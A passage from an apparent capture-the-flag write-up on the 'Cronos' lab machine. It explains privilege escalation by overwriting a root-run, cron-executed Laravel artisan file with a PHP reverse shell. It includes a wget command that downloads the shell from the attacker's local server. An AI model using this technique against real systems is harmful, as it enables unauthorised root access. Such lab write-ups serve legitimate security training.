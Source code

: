 Upon checking the permissions for this PHP file, we see that it is writable by the user www-data .

![](/Linux/Linux-Medium/Cronos/Screenshots/laravel.png)

Let us try to replace this file `/var/www/laravel/artisan` with a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Thus, when the `cron-job` runs this file as user root , we will obtain a reverse shell as user root . We can download the PHP reverse shell from above and edit the IP address and port parameters accordingly. Let's host it on our local machine using a Python server using the following command

we edit here 

![](/Linux/Linux-Medium/Cronos/Screenshots/reverseshell.png)

now we upload to the machine 

```sh
wget -r http://10.10.14.9:8000/php-reverse-shell.php
```
